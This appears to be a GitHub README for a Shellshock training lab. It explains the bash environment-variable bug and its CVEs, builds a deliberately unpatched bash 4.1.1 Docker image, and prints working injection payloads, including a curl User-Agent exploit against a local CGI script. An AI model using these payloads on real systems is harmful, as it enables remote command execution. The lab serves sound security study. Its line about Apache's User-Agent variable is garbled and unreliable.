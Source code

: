 # shellshock-lab

This is a playground to investigate and emulate the infamous `shellshock` vulnerability in `bash` (CVE-2014-6271, CVE-2014-7169, CVE-2014-7186 CVE-2014-7186).

## About Shellshock

`https://en.wikipedia.org/wiki/Shellshock_(software_bug)`

Shellshock is a critical vulnerability discovered in older versions of the Bash shell. It allows attackers to execute arbitrary commands by injecting malicious code 
into specially crafted environment variables. The vulnerability occurs during the initialization of a new Bash process, 
where Bash improperly processes function definitions within environment variables.

```bash
env x='() { :;}; echo vulnerable!' bash -c ""
```
In vulnerable Bash versions, the above command will execute echo vulnerable! because Bash misinterprets additional code after the function definition.

### CVE identifiers

- CVE-2014-6271 (initial),
- CVE-2014-6277,
- CVE-2014-6278,
- CVE-2014-7169,
- CVE-2014-7186,
- CVE-2014-7187

### Key impacts

- Shellshock is dangerous because environment variables can be passed to Bash from external sources, such as web servers (via CGI scripts), SSH, or other services.
- Attackers can use this to compromise systems and execute arbitrary commands.



## Repo Content

- `image/` - contains everything that is needed to build a vulnerable, unpatched image of bash (`4.1.1`)

## Building the image

From within the image directory...

```bash
docker build -t shellshock-lab:latest .
```

## Running the container

```bash
docker run --rm -p 2222:22 -p 8080:80 -p 8443:443 -it shellshock-lab:latest
```

## Exploit using CGI scripts

The container runs an Apache server with a CGI script that is vulnerable to `shellshock`. The script is located at `/usr/lib/cgi-bin/submit-comment.cgi`,
and can be accessed via `http://localhost:8080/cgi-bin/submit-comment.cgi`.

`apache2` automatically sets the `User-Agent` header to the value of the `User-Agent` HTTP header. This means that the `User-Agent` header can be used to exploit the `shellshock` vulnerability.

```bash
curl --header 'User-Agent: () { :;}; /bin/bash -c "echo pwned > /tmp/test"' http://localhost:8080/cgi-bin/submit-comment.cgi
```
